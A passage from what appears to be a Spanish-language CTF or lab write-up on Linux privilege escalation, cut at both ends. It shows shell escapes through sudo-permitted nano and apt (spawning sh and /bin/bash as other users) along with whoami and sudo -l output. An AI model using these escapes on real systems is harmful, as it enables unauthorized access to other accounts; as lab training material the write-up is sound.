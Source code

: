 ```bash
sudo -u john /usr/bin/nano
```

Al abrir el editor de texto nano, podemos ejecutar un comando de la siguiente forma:

```
Ctrl + R
Ctrl + X
```

```bash
reset; sh 1>&0 2>&0
clear
```

Info:
```
john@507ac954e9cf:/home/cafetero$ whoami
john
```

De este modo, pivotamos al usuario `john`.

Comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for john on 507ac954e9cf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on 507ac954e9cf:
    (bobby) NOPASSWD: /usr/bin/apt
```

Con `john` tenemos permisos para ejecutar el binario `apt` con privilegios del usuario `bobby`.

```bash
sudo -u bobby apt changelog apt
!/bin/bash
```

Info:
```
bobby@507ac954e9cf:/home/cafetero$ whoami
bobby
```

De este modo, pivotamos al usuario `bobby`.

Comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```
